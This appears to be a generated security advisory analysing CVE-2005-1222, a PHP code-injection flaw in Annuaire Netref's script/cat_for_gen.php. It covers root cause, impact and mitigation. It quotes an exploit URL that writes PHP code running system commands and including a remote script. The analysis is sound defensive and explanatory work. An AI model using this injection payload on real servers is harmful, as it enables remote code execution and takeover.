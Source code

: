 Based on the provided content, here's an analysis of the vulnerability described:

**CVE ID:** CVE-2005-1222 (based on the content from marc.info)

**Root Cause of Vulnerability:**
- The vulnerability lies in the `script/cat_for_gen.php` file of the Annuaire Netref software. This script fails to properly sanitize or validate user-supplied input before using it in a file write operation. Specifically, the variables `$ad`, `$ad_direct`, and `$m_for_racine` are not checked.

**Weaknesses/Vulnerabilities Present:**
- **Unvalidated Input:** The script directly uses the `$m_for_racine` variable in a `fwrite` operation without sanitizing it.
- **Arbitrary File Write:** The attacker can control the content of the file `cache/cat_for.php` due to the lack of input validation.
- **PHP Code Injection:**  Since the file is written with the `.php` extension, it will be parsed as a PHP file. This allows an attacker to inject arbitrary PHP code.

**Impact of Exploitation:**
- **Remote Code Execution:** By injecting PHP code, an attacker can execute arbitrary commands on the server. This could lead to a complete compromise of the system, including data theft, defacement, or use of the compromised server for malicious activities.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability can be exploited using a specially crafted HTTP GET request to `script/cat_for_gen.php` with malicious values for `$ad`, `$ad_direct` and `$m_for_racine`.

**Required Attacker Capabilities/Position:**
- **Remote, Unauthenticated Access:** An attacker only needs network access to the web server running the vulnerable Netref application. No authentication is required.
- **Knowledge of the Vulnerable Script:** The attacker needs to know the path of the vulnerable script (`script/cat_for_gen.php`) and the vulnerable parameters.

**Exploit Example:**
The provided exploit in the content demonstrates how the vulnerability is exploited:

```
<http://www.yourdomain.com/>[netref_folder]/script/cat_for_gen.php?ad=1&ad_direct=../&m_for_racine=</option></SELECT><?php \

sytem($command);include($remote_script)?>
```
This URL injects PHP code into `cache/cat_for.php`. The injected code includes a placeholder for executing system commands (`sytem($command)`) and including a remote script (`include($remote_script)`).

**Solution:**
The suggested mitigation is to add a .htaccess file in the "script/" directory with: `deny from all`. This will block access to all scripts in that folder and prevent exploitation. The proper solution is to upgrade to a patched version of the software.

This analysis provides more detail than a standard CVE description by detailing the specific code vulnerability, attack vector, and exploit method.